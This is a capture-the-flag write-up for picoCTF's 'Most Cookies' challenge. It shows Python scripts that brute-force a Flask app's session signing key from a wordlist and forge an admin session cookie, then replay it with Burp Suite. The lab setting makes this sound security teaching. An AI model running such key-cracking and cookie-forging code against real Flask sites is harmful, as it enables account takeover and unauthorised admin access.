





# Most Cookies \(150\)

## Problem

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py)



## Solution

From the source code, things to note:

1\) The /display page checks the session cookie. We need to change the `very_auth` session variable to `admin` somehow.



2\) The Flask session secret key is hardcoded into the source code!

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

We can decode the Flask session cookie like this:

1\) Take the part before the period \(`.`\)



2\) Append the `==` padding

3\) Base64 decode:

```python
>>> base64.urlsafe_b64decode('eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0==')
b'{"very_auth":"snickerdoodle"}'
```

So we can change the session variable to `admin` and encode it again, but first, we need to crack the secret key. This is because the remainder of the session cookie is the **signature** which will be checked at the server-side to prevent tampering.

The following script will bruteforce each secret in the wordlist:

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

wordlist = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

cookie_str="eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YF7u-Q.G5B5RUmEVaXNyLzjitMwzPxALp4"
def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)


for secret_key in wordlist:
    try:
        cookie = decode_flask_cookie(secret_key, cookie_str)
    except:
        continue

    print(secret_key)
    print(cookie)
```

Here, the secret key is `'butter'`.



With the secret key, we can craft our own session cookie:

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask.sessions import TaggedJSONSerializer

session = {'very_auth': 'admin'}
secret = 'butter'

print(URLSafeTimedSerializer(
    secret_key = secret,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs={
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
).dumps(session))
```



Putting this new crafted cookie back into Burpsuite, we get the flag in the response.



